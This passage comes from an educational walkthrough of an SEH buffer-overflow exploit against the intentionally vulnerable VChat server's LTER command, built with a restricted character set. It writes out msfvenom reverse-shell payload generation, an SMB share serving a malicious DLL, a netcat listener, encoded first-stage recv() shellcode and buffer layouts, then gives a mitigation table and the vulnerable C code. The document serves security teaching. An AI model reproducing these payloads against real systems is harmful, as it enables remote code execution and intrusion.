6. Use the resulting shellcode as shown in the [exploit13a-DLL.py](./SourceCode/exploit13-DLL.py) program. As done previously set a breakpoint and step through the program to verify our shellcode is properly decoded.

	


Now that we have our first stage shellcode, we can generate the second stage, which is contained in a remotely hosted DLL.
1. Use [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) to generate the malicious DLL as it is capable of formatting output for use as a DLL. In this case the shellcode will be contained in the DLL Main function as discussed in the [VChat_DLL](https://github.com/DaintyJet/VChat_KSTET_DLL) writeup!

```
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=none -f dll -o mal.dll
```
* `-a x86`: Specify this is against a 32 bit program.
* `--platform windows`: Specify this is against a process on a Windows system.
* `-p `: Payload we are generating shellcode for.
    * `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
    * `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    * `EXITFUNC=none`: The runs without an exit function, the program will likely crash after this finishes executing!
* `-f`: The output format.
    * `dll`: Format for use as a DLL.

2. Use the [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver) to host the malicious DLL.
	```
	$ sudo impacket-smbserver -smb2support ABCD .
	```
	* `sudo`: This command and operation requires root privileges to bind to the well known SMB port 445.
	* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified.
	* `smb2support`: Enable SMB2 Support.
	* `ABCD`: Name of the current Share. This is chosen to be short or longer to reduce the complexity of the shellcode generation.
	* `.`: This is the current directory we are in, we can specify a path to share a specific directory.


With the second stage prepped and exposed on our network, we can perform the final exploitation.
1. Start a local [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080.

	```
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command.
	* `-l`: Set netcat to listen for connections.
	* `v`: Verbose output.
	* `p`: Set to listen on a port, in this case, port 8080.

4. If the SMB share has not been started, navigate to where your malicious DLL is located and start it.
	```
	$ sudo impacket-smbserver -smb2support ABCD .
	```
	* `sudo`: This command and operation requires root privileges to bind to the well-known SMB port 445.
	* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified.
	* `smb2support`: Enable SMB2 Support.
	* `A`: Name of the current Share. This is chosen to be short as we would complicate the shellcode generation otherwise.
	* `.`: This is the current directory we are in, we can specify a path to share a specific directory.

5. Run the [exploit13a-DLL.py](./SourceCode/exploit13-DLL.py) program, and open the terminal you have the netcat listener on!


**Note**:
The diagram below shows the stack when the malcious string is injected into vchat.exe. The SEH gadget runs the two jump short
instructions and jumps above to the instructions that create a jump instruction. This jump instruction is to jump back and run JUMP_ENCODE, which jumps to the start of our buffer, where the first stage code FIRST_STAGE is located. FIRST_STAGE will load the remote malicious dll and performs the attack.

The hard part to understand is we use instructions to create the jump instructions.

```
|                                                            | -③---------------------------------------
|------------------------------------------------------------|                                         |
|    b'\x50'                                                 | # PUSH EAX                              |
|    b'\x05\x76\x40\x48\x48'                                 | # ADD EAX,48484076                      |
|    b'\x05\x75\x40\x48\x48'                                 | # ADD EAX,48484075                      |
|    b'\x25\x35\x32\x31\x2a'                                 | # AND EAX,0x2A313235                    |
|    b'\x25\x4a\x4d\x4e\x55'                                 | # AND EAX,0x554E4D4A                    |
|    b'\x5c'                                                 | # POP ESP                               |
|    b'\x50'                                                 | # PUSH EAX                              |
|    b'\x66\x05\x64\x12'                                     | # ADD AX,0x097F                         |
|    b'\x58'                                                 | # POP EAX                               |
|    b'\x54'                                                 | # PUSH ESP                              |
|------------------------------------------------------------|<--------------------|                   |
|    b'C' * 2                                                |                     |                   |
|------------------------------------------------------------|                     |                   |
|    struct.pack('<L', 0x6250271B)                           | # POP EDI # POP EBP # RETN -①-|         |
|------------------------------------------------------------|                     |         |         |
|    b'\x74\x06'                                             | # JZ SHORT +0x8  -②-|         |         |
|    b'\x75\x08'                                             | # JNZ SHORT +0x10 <-----------|         | 
|------------------------------------------------------------|                                         |
|    b'A' * (79 - (6 + len(JUMP_ENCODE)))                    | -④------------------|                   |
|------------------------------------------------------------|                     |                   |
|    JUMP_ENCODE                                             |                     |                   |
|------------------------------------------------------------|                     |                   |
|    b'\x5c'                                                 | # POP ESP           |                   |
|    b'\x50'                                                 | # PUSH EAX          |                   |
|    b'\x2c\x30'                                             | # SUB AL,30         |                   |
|    b'\x58'                                                 | # POP EAX           |                   |
|    b'\x54'                                                 | # PUSH ESP <----------------------------|
|    b'A' * (3574 - (64 + 20 + 79 + 4 + len(FIRST_STAGE)))   |                     |  
|------------------------------------------------------------|                     |
|    FIRST_STAGE                                             |                     |
|------------------------------------------------------------|                     |
|    b'\x5c'                                                 | # POP ESP           |
|    b'\x50'                                                 | # PUSH EAX          |
|    b'\x66\x2d\x69\x02'                                     | # SUB AX,0x0269     |
|    b'\x66\x2d\x69\x02'                                     | # SUB AX,0x0269     |
|    b'\x66\x2d\x69\x02'                                     | # SUB AX,0x0269     |
|    b'\x66\x2d\x69\x02'                                     | # SUB AX,0x0269     |
|    b'\x58'                                                 | # POP EAX           |
|    b'\x54'                                                 | # PUSH ESP          |
|------------------------------------------------------------|<--------------------|
|    b'A' * 64                                               |
|------------------------------------------------------------|
|    b'LTER .'                                               |
|------------------------------------------------------------|
```


#### Multi-Stage
> [!NOTE]
> I have observed that the first stage shellcode will work as expected and can guess all of the possible file descriptors for the program's socket. It is likely the case that Windows's behavior chnages when a SEH exception is raised compared to the enviorment the execution enviornment the original [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi) attack occurs in.
>
> This section is included for refernce.

We will perform a similar exploit to one done for the [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi) exploit, as we will first inject an encoded shellcode to receive the second stage shellcode that is not encoded (It does not account for the restrictive character set), writing it to the stack, and then entering the newly written second stage. This is done so we only have to create the smaller first stage in compliance with the allowed character set, as the first stage will enable us to bypass those restrictions. We do this since it is much easier to create the smaller first stage within the restricted character set than it is for us to generate the more complicated metasploit payloads in a format that preserves their functionality. By instead using the first stage to receive the more complicated shellcode and directly write it to the stack we do not need to be worried about how the original programs' logic changes the data we send, as we have bypassed it with the first stage.

1. As we have done before we need to realign the stack pointer stored in the `ESP` register, since we have jumped to the start of the buffer there are a few thousand `A`s between us and the top of the stack. Additionally, if we do not move the stack pointer as the last instruction used by the decoder in the shellcode is `PUSH EAX`, the second stage shellcode is written to the stack following the `JMP <Head>` instruction, so we would never reach it!

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/544540f9-6d4d-4262-b099-d987a5b86625

	1. We can get an idea of what operation, and the constant we should use by looking at the `ESP` value, and where we jump to on the stack.

		

		* Here my `ESP` register holds the value `0x013CFFC3` and the address we jump to is `0x013CF21E`, this gives us a difference of `0x0DA5` or 3,493 bytes! As our stack grows down, to prevent the multiple calls to the `recv(...)` function from mangling our shellcode, we would like to align our stack to be "Behind" or point to an address lower than the location we wrote our shellcode to. However, we **also** want the decoded shellcode to be written to an address that we can fall into without a jump, so we will make further modifications to the `ESP` value in our shellcode used to call to `recv(...)` separately from our current `ESP` modifications. <!-- so I chose to use the offset `0x09A5` so we write to an address we will eventually execute without performing a jump, and we leave the additional stack manipulation needed to prevent the corruption of our shellcode to the shellcode itself. -->

	2. We will use the machine code that results from the following x86 assembly instructions. We can generate them in Immunity Debugger as done previously or with the `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` program on the Kali Linux machine.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0DA5      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0DA5
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		```

		

		* Notice that in the subtraction instruction's machine code `\x66\x2d\xa8\x0d` we have an invalid character `a8`! This means we need to modify the program to perform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to perform 4 subtractions.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		```
	3. Edit your exploit to reflect [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and run the exploit to ensure it works!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/507e8fe0-f90a-4ae2-80cb-7fe00fc86efe

      1. Click on the black button highlighted below, and enter the address we decided in the previous step.

			

      2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

			

      3. Run [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and pass the exception to the VChat program.

			

2. Now we can create the first stage shellcode that we will inject into the VChat server. The source assembly is contained in [shellcode.asm](./SourceCode/shellcode.asm) and is discussed in more detail in the [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi) exploit. In this case, the address of `recv(...)` (`0x776A23A0`) contained a bad character `0xA0`, but due to the use of an encoder, we do not have to worry about this.

	```
	sub esp,0x02            ; Move ESP pointer above our initial buffer to avoid
							; overwriting our shellcode
	xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
	socket_loop:            ; Brute Force Loop Label
	xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
	push ebx                ; Push 'flags' parameter = 0
	add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
	push ebx                ; Push `len` parameter, this is 1024 bytes
	mov ebx,esp             ; Move the current pointer of ESP into EBX
	add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
							; where our stage-2 payload will be received (And fallen into)
	push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
	inc edi                 ; Make EDI = EDI + 1
	push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
	mov eax,0x776A23A0      ; We need to make EAX = 0x776A23A0 but this contains a bad character
	call eax                ; Call recv()
	test eax,eax            ; Check if our recv() call was successfully made
	jnz socket_loop         ; If recv() failed, jump back to the socket loop where
							; EDI will be increased to check the next socket handle
	```
	* For the initial instruction, you only need to subtract from the stack pointer by 1-2 bytes since our current `ESP` value will point to the first instruction. Later, we still want to perform the large addition (in this case, a value of `0x64`) on the saved `ESP` value so that our second stage will be written ahead of our first stage shellcode.
	* Keep in mind that you may need to adjust the address used in the `mov eax,0x776A1260` instruction. Below is an example of using Arwin to find the address of the `recv(...)` function.

		

3. Now, we need to assemble the assembly into machine code and then extract the machine instructions so we can encode them.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/5535983c-3398-4f38-b8e4-b440e4104aab <!-- Replace -->

	1. Ensure nasm is installed, if not you will need to [install it](https://nasm.us/) and add it to the path.

		

	2. Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`.
		* `nasm`: Netwide Assembler assembles assembly into x86 machine code.
		* `-f elf32`: elf32 format.
		* `-o shellcode.o`: Shellcode file.
		* `shellcode.asm`: input file.
	3. Extract the binary with a simple [shell script](./SourceCode/extract.sh).
		```sh
		for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
			echo -n '\x'$i;
		done;
		echo
		```
		* `for i in`: For each value `$i` generated by the following command.
		* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
			* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
			* `grep "^ "`: Extract only those lines containing assembly.
			* `cut -f2`: Extract the second field, this contains the hex representation of the instructions.
		* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
		* `echo`: Print an extra line.
		* **Note**: If you create this file, be sure to make it executable with `chmod +x extract.sh`, then you can run it using the command `./extract.sh`.

		

	4. Use the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder) to encode our first stage shellcode.

		```
		python3 encoder.py -m -p -s '\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47\x57\xb8\xa0\x23\x6a\x77\xff\xd0\x85\xc0\x75\xe6' -v FIRST_STAGE
		```
		* `python3 encoder.py`: Run the `encoder.py` with the python3 interpreter.
		* `-m`: Generates shellcode in the format expected by python `\x00 - \xff`.
		* `-p`: Pad shellcode so it is a multiple of 4.
		* `-s <Shellcode>`: Shellcode to encode as we added the `-p` flag this can be of any length.
		* `-v`: Name of variable for output.

	5. Modify your exploit to reflect [exploit13a-MULT.py](./SourceCode/exploit13a-MULT.py), then test it!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/ed4fc693-7510-409b-beb0-83b3c6123ed4

		1. Click on the black button highlighted below, and enter the address we decided in the previous step.

			

		2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

			

		3. Run [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and pass the exception to the VChat program.

			

4.  Generate the second stage reverse shell code using ```msfvenom``` program, and create a exploit as shown in [exploit13b-MULT.py](./SourceCode/exploit13b-MULT.py).
	<!-- Look into ADD -a x86 and --platform windows -->
	```
	$ msfvenom  -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00x\0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
      	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
  	* `-f`: The output format.
    	* `python`: Format for use in Python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values.
      	* `\x00x\0a\x0d`: Null char, carriage return, and newline.

> [!NOTE]
>  Be sure to run the [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 while running [exploit13b-MULT.py](./SourceCode/exploit6.py)

```
$ nc -l -v -p 8080
```
* `nc`: The netcat command
* `-l`: Set netcat to listen for connections
* `v`: Verbose output
* `p`: Set to listen on a port, in this case port 8080.

## Attack Mitigation Table
In this section we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server, specifically we will be discussing their effects on a buffer overflow that overwrites a SEH record and attempts to execute shellcode that has been written to the stack. We will make a note that some mitigations may be bypassed if the target application contains additional vulnerabilities such as a [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack), or by using more complex exploits like [Return Oriented Programming (ROP)](https://github.com/DaintyJet/VChat_TRUN_ROP).

> [!IMPORTANT]
> This section is the same as the one described in the [VChat_GMON_SEH](https://github.com/DaintyJet/VChat_GMON_SEH) walkthrough, as the only difference between this exploit and the [VChat_GMON_SEH](https://github.com/DaintyJet/VChat_GMON_SEH) document is the restricted character set.

First, we will examine the effects of individual defenses on this exploit, and then we will examine the effects of a combination of these defenses on the VChat exploit.

The mitigations we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate where functions and datastructures are located as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled it will only have it's addresses randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time.
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function or if you are using `C++` virtual functions, which would be considered indirect calls as you index a table of function pointers.
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on it, such as allocations or frees of heap objects.

### Individual Defenses: VChat Exploit
This exploit is similar to all the previous exploits except that an exception is raised before the function can exit and return normally. This means the exception-handling mechanism is triggered due to some operation performed at runtime.

|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|No Effect| | |X |X |X | X| X| X|
|Partial Mitigation| | |X| | | | | |
|Full Mitigation| |X| | | | | | | |
---
|Mitigation Level|Defenses|
|-|-|
|No Effect|SafeSEH, SEHOP, Heap Integrity Validation, and Control Flow Guard (CFG)|
|Partial Mitigation|Address Space Layout Randomization|
|Full Mitigation|Buffer Security Checks (GS) ***or*** Data Execution Prevention (DEP)|


* `Defense: Buffer Security Check (GS)`: This mitigation strategy proves effective against stack-based buffer overflows that overwrite a function's return address or arguments. This is because the randomly generated security cookie is placed before the return address, and its integrity is validated before the return address is loaded into the `EIP` register. As the security cookie is placed before the return address, in order for us to overflow the return address, we would have to corrupt the security cookie, allowing us to detect the overflow. As the SEH Record is contained deeper in the stack, to overwrite it, we would overwrite the security cookie. However, as we do not return, this mitigation is never verified.
* `Defense: Data Execution Prevention (DEP)`: This mitigation strategy proves effective against stack-based buffer overflows that attempt to **directly execute** shellcode located on the stack as this would raise an exception.
* `Defense: Address Space Layout Randomization (ASLR)`: This does not affect our exploit as we do not require the addresses of external libraries or the addresses of internal functions. The jumps that we perform as part of the exploit are *relative* and compute where the flow of execution is directed to based on the current location.
* `Defense: SafeSEH`: This would prove effective as long as the SEH chain overflowed is contained in a module that has SAFESEH enabled, as the handler in the SEH record would no longer point to an address contained in the SAFESEH table.
* `Defense: SEHOP`: This would prove effective as overflowing the SEH handler would overwrite the next pointer, breaking the SEH chain which means the SEHOP mitigation would be unable to verify the SEH chain by traversing from the start till the end.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This does not affect our exploit as we do not leverage indirect calls or jumps.
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie or contains additional vulnerabilities that can leak values on the stack, then this mitigation strategy can be bypassed.
>
> `Defense: Data Execution Prevention (DEP)`: If the attacker employs a [ROP Technique](https://github.com/DaintyJet/VChat_TRUN_ROP) then this defense can by bypassed.
>
> `Defense: Address Space Layout Randomization (ASLR)`: This defense can be bypassed if the attacker can leak addresses, or they may brute force the offsets of functions they are calling in the shellcode. This mitigation does not prevent the exploit but simply makes it harder and less reliable.
 ### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|Defense: Data Execution Prevention (DEP)|**No Increase**: As the function does not return, we do not verify the integrity of the security cookie.|X| **No Increase**: The randomization of addresses does not affect the protections provided by DEP.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: The windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | |
|Defense: SafeSEH|**No Increase**: As the function does not return, we do not verify the integrity of the security cookie.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: We do not directly use external functions, and any jumps are relative. |X|**Increased Security**: Combining two effective mitigations provides the benefits of both. In this case, if SafeSEH were to be bypassed, SEHOP may catch this.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited.| |
|Defense: SEHOP|**No Increase**: As the function does not return, we do not verify the integrity of the security cookie.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: We do not directly use external functions, and any jumps are relative.|**Increased Security**: Combining two effective mitigations provides the benefits of both. If SEHOP were to be bypassed, SafeSEH may catch this.|X|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited.| |


### VChat Code

As with the previous exploits, the VChat code is relatively simple in nature. Once a connection is received on port 9999, a thread is created running the  `DWORD WINAPI ConnectionHandler(LPVOID cli)` function, where `LPVOID cli` is a void pointer that holds the address of a `client_t` structure; this is a custom structure that contains the necessary connection information.


Below is the code segment that handles the `LTER` message type.
```c
else if (strncmp(RecvBuf, "LTER ", 5) == 0) {
				char* LterBuf = malloc(DEFAULT_BUFLEN);
				memset(LterBuf, 0, DEFAULT_BUFLEN);
				i = 0;
				while (RecvBuf[i]) {
					if ((byte)RecvBuf[i] > 0x7f) {
						LterBuf[i] = (byte)RecvBuf[i] - 0x7f;
					}
					else {
						LterBuf[i] = RecvBuf[i];
					}
					i++;
				}
				for (i = 5; i < DEFAULT_BUFLEN; i++) {
					if ((char)LterBuf[i] == '.') {
						Function3(LterBuf);
						break;
					}
				}
				memset(LterBuf, 0, DEFAULT_BUFLEN);
				SendResult = send(Client, "LTER COMPLETE\n", 14, 0);
}
```
The buffer we copy to `LterBuf` can hold all of the bytes that we successfully transmit (4096 bytes), this is initially zeroed out using the call `memset(LterBuf, 0, DEFAULT_BUFLEN);`. Then for each non-zero character `while (RecvBuf[i])` we copy the byte over.

If the byte has a value less than `0x7f` it's value is preserved, otherwise it's value is over `0x7f` and the resulting value we will save is `0x7f` less than what was originally sent.

If the first 5 characters of the string contain a period `.`, then we enter into `Function3(char* Input)`.
```c
void Function3(char* Input) {
	char Buffer2S[2000];
	strcpy(Buffer2S, Input);
}
```
As in previous exploits, `Function3(char* Input)` performs a copy into a buffer that can hold 2000 bytes from one that may hold 4096 bytes, leading to an overflow.
<!-- ----
The manual encoding section described in the original [Blog](https://fluidattacks.com/blog/vulnserver-lter-seh/) cannot be applied to this case directly. In the original blog, the procedure used by the author for moving the ESP to the end of the C buffer can be described as:

1. First push the current ESP value to the stack (PUSH ESP)
2. Pop the ESP value to EAX (POP EAX)
3. Add offset value (0x1453) to EAX so that EAX will point to the end of the C buffer (ADD AX, 0x1453) 
4. Push EAX to the stack (PUSH EAX)
5. Pop the EAX value to ESP (POP ESP)

The assembly code in the original blog (shown as below) does not contain any bad character, and can therefore be used directly.
```
# Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\x53\x14' +   # ADD AX,0x1453
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
```
---
However in my case, the offset from the current ESP to the end of the C buffer is 0x13D3. So I use the same way to make ESP point to the buffer end and generate the following code: 
```
# Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\xD3\x13' +   # ADD AX,0x13D3
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
```

Unfortunately, this code contains 0xD3, a bad character. To address this issue, we can split 0x13d3 to two numbers which do not contain any bad characters and add twice. 0x13d3 equals 0x097f plus 0x0a54, therefore I have the code as below:
```
# Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\x7f\x09' +   # ADD AX,0x097F
    B'\x66\x05\x54\x0a' +   # ADD AX,0x0a54
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
```
The following graphs present how ESP changes in my case (from 0x0101EC2C to 0x0101FFFF):


 -->

## Test code

1. [exploit0.py](SourceCode/exploit0.py): Send 5000 `A`s to crash the server.
2. [exploit1.py](SourceCode/exploit1.py): Sending a cyclic pattern of chars to identify the offset that we need to inject to control EIP.
3. [exploit2.py](SourceCode/exploit2.py): Send 4 B's at the location of the offset identified to confirm.
4. [exploit3.py](SourceCode/exploit3.py): Replacing the bytes at the offset discovered by exploit1.py with the address of *POP EBX, POP EBP, RETN*. **Contains Bad Characters**!
5. [exploit4x.py](SourceCode/exploit4a.py): Send data-array of all possible ASCII character values various generation methods are provided.
	* [exploit4a.py](SourceCode/exploit4a.py): Array Generated by `mona.py`.
	* [exploit4b.py](SourceCode/exploit4b.py): Array Generated with multi-line for loop.
	* [exploit4c.py](SourceCode/exploit4c.py): Array Generated by a one-liner.
6. [exploit5.py](SourceCode/exploit5.py): Replacing the bytes at the offset discovered by exploit1.py with the address of *POP EBX, POP EBP, RETN*. **Does Not Contain Bad Characters**!
7. [exploit6.py](SourceCode/exploit6.py): Add conditional jump to avoid bad characters.
8. [exploit7a.py](SourceCode/exploit7a.py): MSF-Encoding example (Does not work, due to containing bad characters).
9. [exploit7a.py](SourceCode/exploit7a.py): Aligns ESP.
10. [exploit8.py](SourceCode/exploit8.py): Zeros out the EAX register, avoids bad characters by using two and operations.
11. [exploit9.py](SourceCode/exploit9.py): Adds short Jump.
12. [exploit10.py](SourceCode/exploit10.py): Realigns stack.
13. [exploit11.py](SourceCode/exploit11.py): Adds encoded long jump.
14. [exploit12](SourceCode/exploit12.py): Adjust ESP.
15. [exploit13-DLL.py](SourceCode/exploit13-DLL.py): Inject encoded `LoadLibraryA(...)`.
16. [exploit13-MULT](SourceCode/exploit13a-MULT.py): Code reuse and multi-stage exploit.
	* [exploit13a-MULT.py](SourceCode/exploit13a-MULT.py): Inject the encoded first stage.
	* [exploit13b-MULT.py](SourceCode/exploit13a-MULT.py): Send the second stage.

## References

[1] https://x3tb3t.github.io/2018/03/29/mona/

[2] https://crawl3r.github.io/2020-02-06/manuel_alphanumeric_shellcode_encoder

[3] https://riptutorial.com/x86/example/20470/conditional-jumps

[4] https://web.archive.org/web/20190218144432/https://vellosec.net/2018/08/carving-shellcode-using-restrictive-character-sets/ 

[5] https://www.ibm.com/support/pages/just-faqs-about-little-endian
